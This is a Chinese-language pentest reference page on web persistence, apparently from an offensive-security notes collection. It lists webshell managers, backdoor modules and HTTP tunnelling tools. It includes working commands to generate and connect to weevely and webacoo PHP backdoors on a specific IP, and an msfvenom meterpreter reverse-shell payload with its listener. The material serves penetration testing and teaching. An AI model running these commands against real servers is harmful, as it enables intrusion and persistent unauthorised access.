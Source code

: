 Web持久化
----------------------------------------

WebShell管理工具
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `菜刀 <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，不支持HTTPS。
	+ 一句话木马通用后门。
- `Cknife <https://github.com/Chora10/Cknife>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 一句话木马通用后门。
- `antSword <https://github.com/antoor/antSword>`_
	+ 支持asp，jsp，php。
	+ 一句话木马通用后门。
- `冰蝎 <https://github.com/rebeyond/Behinder>`_
	+ 动态二进制加密网站管理客户端，支持java,.net,php，HTTPS。
	+ 非通用后门。
- `Altman <https://github.com/keepwn/Altman>`_ 
	+ 支持asp，jsp，php。
- `Webshell Sniper <https://github.com/WangYihang/Webshell-Sniper>`_ 
	+ 仅支持在类Unix系统上运行。
- `quasibot <https://github.com/Smaash/quasibot>`_ complex webshell manager, quasi-http botnet
- webacoo
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``webacoo -g -o webacootest.php`` 
	+ 连接后门： ``webacoo -t -u http://106.54.74.40/webacootest.php`` 
- `weevely3 <https://github.com/epinna/weevely3>`_ Weaponized web shell
	+ 仅支持PHP，非通用后门。
	+ 生成webshell： ``weevely generate weevelytest ./weevelyphp.php`` 
	+ 连接后门： ``weevely http://106.54.74.40/weevelyphp.php weevelytest`` 
	+ 连接成功后，输入help，可以查看支持的命令和功能，注意执行模板命令需要加:号。
- `Godzilla哥斯拉 <https://github.com/BeichenDream/Godzilla>`_
	+ 支持asp，jsp，php，支持HTTPS。
	+ 非通用后门。
- Metasploit生成后门
	+ ``msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.131 -f asp > shell.asp`` 
	+ 连接后门
		::
		
			use exploit/multi/handler
			set PAYLOAD windows/meterpreter/reverse_tcp
			set LHOST 10.10.10.131
			exploit
			打开页面：http://10.10.10.130/shell.asp

WebShell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
- `webshell <https://github.com/tennc/webshell>`_
- `PHP backdoors <https://github.com/bartblaze/PHP-backdoors>`_
- `php bash - semi-interactive web shell <https://github.com/Arrexel/phpbash>`_
- `Python RSA Encrypted Shell <https://github.com/Eitenne/TopHat.git>`_
- `b374k - PHP WebShell Custom Tool <https://github.com/b374k/b374k>`_
- ``/usr/share/webshells/*`` 

Web后门
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `pwnginx <https://github.com/t57root/pwnginx>`_
- `Apache backdoor <https://github.com/WangYihang/Apache-HTTP-Server-Module-Backdoor>`_
- `SharpGen <https://github.com/cobbr/SharpGen>`_  .NET Core console application that utilizes the Rosyln C# compiler to quickly cross-compile .NET Framework console applications or libraries
- `IIS-Raid <https://github.com/0x09AL/IIS-Raid>`_ A native backdoor module for Microsoft IIS

转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `reDuh <https://github.com/sensepost/reDuh>`_ Create a TCP circuit through validly formed HTTP requests
- `reGeorg <https://github.com/sensepost/reGeorg>`_ pwn a bastion webserver and create SOCKS proxies through the DMZ. Pivot and pwn
- `Neo-reGeorg <https://github.com/L-codes/Neo-reGeorg>`_ Neo-reGeorg is a project that seeks to aggressively refactor reGeorg
- `ABPTTS <https://github.com/nccgroup/ABPTTS>`_ TCP tunneling over HTTP/HTTPS for web application servers
